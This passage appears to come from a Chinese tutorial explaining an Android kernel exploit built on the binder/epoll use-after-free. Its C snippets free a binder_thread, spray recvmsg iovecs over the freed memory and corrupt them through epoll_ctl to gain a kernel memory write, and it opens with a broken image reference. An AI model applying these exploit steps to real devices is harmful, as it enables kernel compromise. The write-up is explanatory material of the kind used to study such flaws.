 [外链图片转存失败, 源站可能有防盗链机制, 建议将图片保存下来直接上传 (img-3fXOT34l-1644394151949)(second_binder.png)]

填写我们的 iovc, 然后将 eventpoll 链接到 binder_thread 上面去

```
 printf("[+] Freeing binder_thread \n");
    ioctl(m_binder_fd,BINDER_THREAD_EXIT,NULL);

    ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL);

```

接着主线程 free 掉 binder_thread

recvmsg malloc 喷射到 free 的 binder_thread 上面去，然后将我们的 iovc 覆盖掉 free 的 binder_thread, 接着将之前我们传入的一个字节的垃圾数据写入 m_4gb_aligned_page, 然后堵塞了，进行子线程

```
pid_t childPid = fork();

    if(childPid == 0){
    
    sleep(2);


    printf("[+] unlinking eppoll_entry->wait.entry from binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_DEL,m_binder_fd, &m_epoll_event);
    
   nBytesWritten =  write(sock_fd[1],FinalSocketData,sizeof(FinalSocketData));

    if(nBytesWritten != sizeof(FinalSocketData)){
        printf("\t [-]write failed. nBytesWritten : 0x%lx , expected : 0x%lx\n",nBytesWritten,sizeof(FinalSocketData));
        exit(EXIT_FAILURE);
    }

    exit(EXIT_SUCCESS);
    }

```

sleep(2); 确保主线程执行完上述内容

epoll_ctl 破坏掉我们的 iovc, 将 iovecStack[IOVEC_WQ_INDEX].iov_len，iovecStack[IOVEC_WQ_INDEX + 1].iov_base 改为 wait.head.next 原本在 binder_thread 的地址

write 将 FinalSocketData 写入 socket, 此时堵塞解除继续

```
ssize_t nBytesReceived = recvmsg(sock_fd[0],&message,MSG_WAITALL

```

由于 iovecStack[11].iov_base 研究改为 wait.head.next 原本在 binder_thread 的地址，因此会在 wait.head.next 地址出写上 0x8+0x8+0x8+0x8 的数据，也就是

iovecstack[10].iov_len 上填写 FinalSocketData[0]
